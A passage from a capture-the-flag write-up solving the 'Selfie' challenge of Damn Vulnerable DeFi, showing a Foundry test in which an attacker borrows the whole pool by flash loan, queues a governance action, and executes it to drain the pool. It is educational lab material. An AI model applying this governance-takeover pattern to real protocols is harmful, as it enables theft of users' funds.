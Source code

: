 The Executor contrat is executed by our main test like this

```solidity
// (foundry) Sets all subsequent calls' msg.sender to be the input address
vm.startPrank(attacker);
// deploy the executor contract
Executor executor = new Executor(governance, pool);
// start the attacking sequence
executor.borrow(TOKENS_IN_POOL);
// (foundry) warp time to be able to execute the drain action
// the action can be executed only after two days since the proposal
utils.mineTime(governance.getActionDelay());
// call the governance contract and execute the action
governance.executeAction(executor.drainActionId());
// (foundry) Resets subsequent calls' msg.sender to be `address(this)`
vm.stopPrank();
```

You can find the full solution on GitHub, looking at [SelfieTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/selfie/SelfieTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract SelfieTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
